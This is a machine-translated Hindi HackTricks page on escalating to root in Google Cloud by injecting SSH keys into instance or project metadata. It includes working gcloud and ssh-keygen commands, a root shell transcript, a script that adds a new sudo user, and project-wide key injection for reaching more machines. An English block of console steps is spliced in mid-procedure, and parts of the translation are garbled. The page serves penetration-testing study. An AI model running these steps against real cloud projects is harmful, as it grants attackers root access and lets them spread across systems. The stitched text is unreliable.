 # GCP - अतिरिक्त SSH मेटाडेटा जोड़ें

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **तुरंत** मुझे **ट्विटर** पर फ़ॉलो करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

## मेटाडेटा संशोधित करना <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

यदि आप **इंस्टेंस के मेटाडेटा को संशोधित** कर सकते हैं, तो स्थानीय रूप से वर्धित अधिकार प्राप्त करने के कई तरीके हैं। इस अनुमानित करने के लिए कुछ स्थितियाँ हैं जो इस अनुमति के साथ सेवा खाता की ओर ले जा सकती हैं:

_**डिफ़ॉल्ट सेवा खाता**_\
यदि सेवा खाता एक्सेस **स्कोप** को **पूरी पहुंच** पर सेट किया जाता है या कम से कम **कंप्यूट API तक पहुंच की अनुमति दी जाती है**, तो यह विन्यास **विकल्प** को उन्नति के लिए **विकल्पशील** है। **डिफ़ॉल्ट** **स्कोप** विकल्पशील नहीं है।

_**कस्टम सेवा खाता**_\
कस्टम सेवा खाता का उपयोग करते समय, अधिकार प्राप्त करने के लिए निम्नलिखित IAM अनुमतियों में से **एक** की आवश्यकता होती है:

* `compute.instances.setMetadata` (एकल इंस्टेंस पर प्रभाव डालने के लिए)
* `compute.projects.setCommonInstanceMetadata` (परियोजना में सभी इंस्टेंस पर प्रभाव डालने के लिए)

हालांकि, Google [अनुशंसा](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance) करता है कि कस्टम सेवा खातों के लिए एक्सेस स्कोप का उपयोग न करें, फिर भी इसे करना संभव है। आपको निम्नलिखित **एक्सेस स्कोप** की आवश्यकता होगी:

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **कस्टम मेटाडेटा में SSH कुंजी जोड़ें**

GCP पर **लिनक्स** **सिस्टम** आमतौर पर [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) स्क्रिप्ट चला रहे होंगे। इनमें से एक है [खाते डेमन](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), जो **नियमित अंतराल पर** **इंस्टेंस मेटाडेटा एंडपॉइंट को प्रश्न करता है और अधिकृत SSH सार्वजनिक कुंजियों में परिवर्तनों के लिए**।

**यदि एक नई सार्वजनिक** कुंजी का सामना होता है, तो इसे प्रोसेस किया जाएगा और **स्थानीय मशीन में जोड़ा जाएगा**। कुंजी के प्रारूप के आधार पर, या तो इसे मौजूदा उपयोगकर्ता के `~/.ssh/authorized_keys` फ़ाइल में जोड़ा जाएगा या नई उपयोगकर्ता बनाई जाएगी जिसमें `sudo` अधिकार होंगे।

तो, यदि आप अपने सेवा खाते के साथ **कस्टम इंस्टेंस मेटाडेटा को संशोधित** कर सकते हैं, तो आप स्थानीय सिस्टम पर **उच्चतम खाते के लिए SSH अधिकार प्राप्त** करके रूट तक **वर्धित** कर सकते हैं। यदि आप **कस्टम परियोजना मेटाडेटा** को संशोधित कर सकते हैं, तो आप **वर्तमान GCP परियोजना में किसी भी सिस्टम पर रूट तक वर्धित** कर सकते हैं जो खाते डेमन चला रहा है।

### **मौजूदा उच्चतम उपयोगकर्ता में SSH कुंजी जोड़ें**

चलो शुरू करते हैं और एक मौजूदा खाते में अपनी कुंजी जोड़ते हैं, क्योंकि यह संभवतः सबसे कम शोर मचाएगा।

**मौजूदा SSH कुंजियों के लिए इंस्टेंस की जांच करें**। ये उपयोगकर्ता में से किसी एक को चुनें क्योंकि उनके पास संभवतः sudo अधिकार होंगे।
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
## Add Custom SSH Metadata

To escalate privileges in Google Cloud Platform (GCP), you can add custom SSH metadata to a GCP instance. This allows you to gain SSH access to the instance with elevated privileges.

To add custom SSH metadata, follow these steps:

1. Open the GCP Console and navigate to the Compute Engine page.
2. Select the instance to which you want to add custom SSH metadata.
3. Click on the "Edit" button at the top of the page.
4. Scroll down to the "Custom metadata" section.
5. Click on the "Add item" button.
6. In the "Key" field, enter `ssh-keys`.
7. In the "Value" field, enter the SSH public key that you want to use for authentication.
8. Click on the "Save" button to save the changes.

Once the custom SSH metadata is added, you can SSH into the GCP instance using the specified SSH key. This will grant you elevated privileges on the instance.

Note: Make sure to remove the custom SSH metadata after you have completed your tasks to avoid leaving any potential vulnerabilities.
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
जानें कि पब्लिक कीज़ का **थोड़ा अजीब फॉर्मेट** है - **उपयोगकर्ता नाम** प्रारंभ में दिया गया है (इसके बाद एक बाइंडिंग द्वारा) और फिर से **अंत में** दिया गया है। हमें इस फॉर्मेट के साथ मेल खाने की आवश्यकता होगी। सामान्य SSH कीज़ ऑपरेशन के विपरीत, उपयोगकर्ता नाम बहुत मायने रखता है!

**उपयोगकर्ता नाम और कीज़ के साथ पंक्तियों को नए पाठ** फ़ाइल `meta.txt` में सहेजें।

चलो मान लेते हैं हम ऊपर से उपयोगकर्ता `alice` को लक्षित कर रहे हैं। हम अपने लिए एक **नई की** इस तरह से उत्पन्न करेंगे:
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
अपनी नई पब्लिक कुंजी को फ़ाइल `meta.txt` में जोड़ें और निम्नलिखित प्रारूप का अनुकरण करें:
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
अब, आप निम्नलिखित कमांड के साथ अपने इंस्टेंस के लिए **SSH कुंजी मेटाडेटा को पुनः लिख सकते हैं**:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
आप अब निम्नलिखित तरीके से `alice` के संदर्भ में शैल में पहुंच सकते हैं:
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **एक नया विशेषाधिकारी उपयोगकर्ता बनाएं और एक SSH कुंजी जोड़ें**

ऊपर दिए गए चरणों का पालन करते समय कोई मौजूदा कुंजी नहीं मिली? `/etc/passwd` में किसी और रुचिकर उपयोगकर्ता को लक्षित करने के लिए?

आप **ऊपर दिए गए समान प्रक्रिया का पालन कर सकते हैं**, लेकिन बस **एक नया उपयोगकर्ता नाम बनाएं**। यह उपयोगकर्ता स्वचालित रूप से बनाया जाएगा और `sudo` के अधिकार प्राप्त करेगा। स्क्रिप्ट के माध्यम से, प्रक्रिया इस तरह दिखेगी:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### परियोजना स्तर पर SSH कुंजी <a href="#sshing-around" id="sshing-around"></a>

पिछले खंड में दिए गए विवरणों का पालन करके आप अधिक VMs को संक्रमित करने का प्रयास कर सकते हैं।

हम इसे और भी बढ़ा सकते हैं [**परियोजना स्तर पर SSH कुंजी लागू करके**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), जो आपको अनुमति देता है **एक विशेषाधिकृत खाते में SSH करने के लिए** किसी भी इंस्टेंस के लिए जिसने स्पष्ट रूप से "परियोजना स्तर SSH कुंजी ब्लॉक करें" विकल्प नहीं चुना है।
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
यदि आप वास्तव में साहसी हैं, तो आप बस `gcloud compute ssh [INSTANCE]` टाइप करके अपने मौजूदा उपयोगकर्ता नाम का उपयोग करके अन्य बॉक्स पर जा सकते हैं।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
